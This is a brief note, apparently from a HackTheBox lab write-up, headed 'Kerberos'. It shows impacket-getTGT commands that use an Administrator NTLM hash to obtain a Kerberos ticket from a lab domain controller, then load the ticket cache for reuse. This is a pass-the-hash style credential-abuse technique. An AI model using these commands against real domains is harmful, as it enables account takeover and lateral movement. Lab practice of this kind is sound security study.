 Kerberos
========================

    impacket-getTGT -hashes :f6b7160bfc91823792e0ac3a162c9267 HTB.LOCAL/Administrator -dc-ip 10.10.10.103
    
    cp user.ccache /tmp/krb5cc_0
    export KRB5CCNAME=/tmp/krb5cc_0
    
    klist